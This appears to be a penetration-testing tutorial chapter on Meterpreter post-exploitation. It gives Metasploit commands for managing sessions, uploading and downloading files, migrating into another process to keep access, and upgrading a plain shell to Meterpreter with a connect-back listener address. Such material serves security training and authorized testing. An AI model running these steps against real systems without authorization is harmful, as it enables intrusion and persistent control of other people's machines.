 # Meterpreter shell for post-exploitation

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.


## Basics

List all commands
```
help
```

Get help about a specific command
```
help upload
```

### Sessions
So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions
```
background -l
```

Connect back to a background session
```
background -i 1
```

Upload and download files.
```
upload
download
```


## Scripts


### Migrate
A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes
```
ps
```

Now you choose one and run
```
run migrate -p 1327
```
Where the `-p` is the PID of the process.


## Post modules

There are tons of modules specifically created for post-exploitation. They can be found with

```
use post/
```

### Upgrade a normal shell to metepreter

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specici exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with 
```
show sessions
#or
sessions -l
```
And you can connect to it again with

```
sessions -i 1
```
Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.